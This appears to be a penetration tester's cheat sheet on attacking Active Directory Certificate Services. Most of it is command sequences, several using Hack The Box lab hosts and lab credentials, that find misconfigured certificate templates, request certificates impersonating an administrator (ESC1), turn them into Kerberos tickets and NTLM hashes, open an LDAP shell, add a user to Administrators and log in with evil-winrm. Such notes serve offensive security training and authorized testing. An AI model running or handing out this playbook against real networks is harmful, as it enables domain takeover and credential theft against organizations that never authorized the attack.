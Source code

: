 ```yaml
---
description: >-
  AD CS is Microsoft’s PKI implementation that provides everything from
  encrypting file systems, to digital signatures, to user authentication (a
  large focus of our research), and more.
---
```


# ADCS attacks

{% embed url="https://www.thehacker.recipes/a-d/movement/ad-cs" %}

There are several different attack vectors including below.&#x20;

* **Credential theft** (dubbed THEFT1 to THEFT5)
* **Account persistence** (dubbed PERSIST1 to PERSIST3)
* **Domain escalation** (dubbed ESC1 to ESC8)
  * based on [misconfigured certificate templates](broken-reference)
  * based on [dangerous CA configuration](broken-reference)
  * related to [access control vulnerabilities](broken-reference)
  * based on an NTLM relay vulnerability related to the [web endpoints of AD CS](broken-reference)
* **Domain persistence** (dubbed DPERSIST1 to DPERSIST3)
  * by [forging certificates with a stolen CA certificates](broken-reference)
  * by trusting rogue CA certificates
  * by [maliciously creating vulnerable access controls](broken-reference)

### Initial Recon

{% code overflow="wrap" %}
```bash
# From UNIX-like systems: 
Kali> rpc net group members "Cert Publishers" -U "DOMAIN"/"User"%"Password" -S "DomainController"
# From Windows systems: 
CMD> net group "Cert Publishers" /domain
```
{% endcode %}

### Vulnerability Check

{% code overflow="wrap" %}
```bash
# Windows 
#  https://github.com/r3motecontrol/Ghostpack-CompiledBinaries   

CMD> Certify.exe cas 
CMD> Certify find /vulnerable

# Linux
# https://github.com/ly4k/Certipy
Kali> certipy find -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout
Kali> certipy find -u Ryan.Cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable

Kali> certipy find -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -old-bloodhound

#Certipy also supports BloodHound. With the -old-bloodhound option, the data will be exported for the original version of BloodHound. With the -bloodhound option, the data will be exported for the modified version of BloodHound, forked by Certipy's author (default output when no flag is set).
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

### Certificate templates

{% embed url="https://www.thehacker.recipes/a-d/movement/ad-cs/certificate-templates" %}

### Template allows SAN (ESC1)

When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

#### Windows&#x20;

{% code overflow="wrap" %}
```bash
# Find vulnerable/abusable certificate templates using default low-privileged group
CMD> Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
CMD> Certify.exe find /vulnerable /currentuser

# Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (subjectAltName).
CMD> Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"

# Create a cert.pem based on the base64 cert output by the command above, and convert it to pem format. 
Kali> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Obtain the TGT. You can convert it to a ccache format to use in Linux later
CMD> .\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt

# Ask Credentials. You can conduct normal path the hash attack. 
CMD> .\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

#### See the [Pass the Ticket](kerberos-attack/pass-the-ticket.md) section to convert the ticket to Linux format.&#x20;

#### Linux

{% code overflow="wrap" %}
```bash
#To specify a user account in the SAN
Kali> certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

certipy req -u Ryan.Cooper -p NuclearMosquito3 -target sequel.htb -upn Administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication

#To specify a computer account in the SAN
Kali> certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'

# Obtain the TGT   
Kali> certipy auth -pfx administrator.pfx 
# After this, you can export it to the KRB5CCNAME variable, and run any commands you want with the new TGT privilege such as secredump/psexec, etc... 

# Obtain the credentials
Kali> certipy auth -pfx <new cert>.pfx
# Typically, you get a NTLM hash. 

# Pass the cert
# 1) Extract Public Key Cert and Private Key  
Kali> certipy cert -pfx <new cert>.pfx -nokey -out user.crt
Kali> certipy cert -pfx <new cert>.pfx -nocert -out user.key
# 2) Create a ldap shell session with the Cert and Key
Kali> python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain htb.corp -dc-ip 10.129.237.92
# #) Add a new user to Administrators 
LDAP_SHELL> add_user_to_group svc_ldap Administrators
# Acccess to the target with new user and credential
Kali> evil-winrm -i 10.129.237.92 -u 'svc_ldap@htb.corp' -p 'lDaP_1n_th3_cle4r!'
```
{% endcode %}

#### To fix CLOCK SKEY issue

```bash
# Synchronize time in case you have CLOCK SKEY issue. 
Kali> sudo ntpdate <DC FQDN>  
sudo ntupdate dc01.sequel.htb 
```

{% embed url="https://app.gitbook.com/o/sbYQpaBkV0ueQjvLIdTt/s/nA4bAkddGXesk1QCLYAY/~/changes/408/active-directory/kerberos-attack/overpass-the-hash-attack#kerberos-tickets" %}

